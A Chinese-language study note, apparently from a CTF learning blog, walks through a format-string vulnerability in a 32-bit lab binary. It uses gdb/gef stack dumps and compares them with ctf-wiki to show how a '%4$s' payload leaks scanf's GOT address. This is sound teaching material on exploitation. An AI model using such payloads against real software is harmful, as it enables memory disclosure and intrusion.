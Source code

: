 ```assembly
gef➤  b printf   # gdb窗口出来后 首先下断点   # Breakpoint 1 at 0xf7dd8060: file printf.c, line 32.
gef➤  c #Continuing.
──────────────────────────────── stack ──── # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的栈; int a = 1, b = 0x22222222, c = -1;
0xfff7022c│+0x0000: 0x080491d6  →  <main+100> add esp, 0x20      ← $esp
0xfff70230│+0x0004: 0x0804a00b  →  "%08x.%08x.%08x.%s\n" # format string
0xfff70234│+0x0008: 0x00000001
0xfff70238│+0x000c: 0x22222222
0xfff7023c│+0x0010: 0xffffffff
0xfff70240│+0x0014: 0xfff70250  →  0x0804c014  →  0xf7dd9100  →  <__isoc99_scanf+0> call 0xf7ec63a9 <__x86.get_pc_thunk.ax>
0xfff70244│+0x0018: 0xfff70250  →  0x0804c014  →  0xf7dd9100  →  <__isoc99_scanf+0> call 0xf7ec63a9 <__x86.get_pc_thunk.ax>
0xfff70248│+0x001c: 0xf7f84410  →  0x080482b8  →  "GLIBC_2.0"
gef➤  c  # Continuing.
────────────────────────────────────────── stack ────  # printf(s); 的栈
0xfff7023c│+0x0000: 0x080491e5  →  <main+115> add esp, 0x10      ← $esp
0xfff70240│+0x0004: 0xfff70250  →  0x0804c014  →  ...# ...与下一行一样 # format string # 0x804c014 是 scanf 的got表项地址
0xfff70244│+0x0008: 0xfff70250  →  0x0804c014  →  0xf7dd9100  →  <__isoc99_scanf+0> call 0xf7ec63a9 <__x86.get_pc_thunk.ax>
0xfff70248│+0x000c: 0xf7f84410  →  0x080482b8  →  "GLIBC_2.0"
0xfff7024c│+0x0010: 0x08049189  →  <main+23> add ebx, 0x2e77
0xfff70250│+0x0014: 0x0804c014  →  0xf7dd9100  →  <__isoc99_scanf+0> call 0xf7ec63a9 <__x86.get_pc_thunk.ax> # format string所在位置
0xfff70254│+0x0018: "%4$s"
0xfff70258│+0x001c: 0xf7fb6900  →  0xf7fb6980  →  0x00000000
────────────────────────────────────────── trace ────
[#0] 0xf7dd8060 → __printf(format=0xfff70250 "\024\300\004\b%4$s")
[#1] 0x80491e5 → main()
```

- `0x0804c014`是 `scanf` 的got表项地址，可以直接由ELF文件得出，`0xf7dd9100`则是`scanf`的真实地址，由脚本的payload利用格式化字符串漏洞得出。（按ctfwiki描述，脚本输出的应该是`0xf7dd9100`，实际脚本输出为`0x0804c014`）

作为对照，放上ctf-wiki中展示的printf(s); 的栈：

```assembly
─────────────────────────────────────[ stack ]──── # ctf-wiki 中# printf(s); 的栈
0xffbbf8dc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffbbf8e0│+0x04: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e4│+0x08: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e8│+0x0c: 0x000000c2
0xffbbf8ec│+0x10: 0xf765c6bb  →  <handle_intel+107> add esp, 0x10
0xffbbf8f0│+0x14: 0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp  ← $eax
0xffbbf8f4│+0x18: "%4$s"
0xffbbf8f8│+0x1c: 0x00000000
```

- 并不是所有的偏移机器字长的整数倍，都可以直接用相应参数来获取，有时，需要对输入的格式化字符串进行填充，使得想要打印的地址内容的地址位于机器字长整数倍的地址处，类似于：
- `[padding][addr]`

#### 覆盖内存

